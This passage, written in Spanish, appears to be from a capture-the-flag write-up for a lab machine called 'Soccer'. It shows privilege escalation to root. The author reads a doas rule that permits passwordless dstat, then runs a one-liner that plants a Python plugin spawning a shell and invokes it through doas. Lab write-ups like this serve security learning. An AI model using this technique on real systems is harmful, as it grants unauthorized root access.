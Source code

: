 Buscamos el `archivo de configuración` de `doas`

```
player@soccer:~$ find / -name "doas.conf" 2>/dev/null
/usr/local/etc/doas.conf
```

Podemos ejecutar `dstat` como usuario `root` sin `contraseña`

```
player@soccer:~$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

Localizamos el `directorio` de `dstat`

```
player@soccer:~$ find / -type d -name dstat 2>/dev/null
/usr/share/doc/dstat
/usr/share/dstat
/usr/local/share/dstat
```

Localizamos el `directorio` de la `bash`

```
player@soccer:~$ which sh
/usr/bin/sh
```

He intentado `crear` un `archivo` manualmente pero no he podido debido a que hay una `tarea cron` que lo `borra`. De forma, he usado este `one-liner` para poder `explotarlo` correctamente

```
player@soccer:~$ echo 'import os; os.execv("/usr/bin/sh", ["sh"])' >/usr/local/share/dstat/dstat_xxx.py && doas -u root /usr/bin/dstat --xxx
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
# whoami
root
```
